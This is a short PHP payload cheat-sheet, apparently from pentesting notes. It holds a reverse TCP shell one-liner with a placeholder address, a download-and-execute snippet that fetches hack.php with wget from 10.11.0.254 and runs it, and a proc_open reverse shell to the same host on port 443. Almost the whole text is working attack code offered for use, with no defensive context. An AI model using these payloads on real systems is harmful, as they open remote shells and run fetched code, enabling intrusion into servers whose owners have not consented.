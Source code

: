 # PHP

## Reverse TCP
php -r '$sock=fsockopen("xx.xx.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## BSD download and execute php.

\<\?php shell_exec("/usr/local/bin/wget -P /tmp 10.11.0.254/hack.php; /usr/local/bin/php /tmp/hack.php");\?\>

<?php $sock = fsockopen("10.11.0.254",443); $proc = proc_open("/bin/sh -i",array(0=>$sock,1=>$sock,2=>$sock),$pipes); ?>
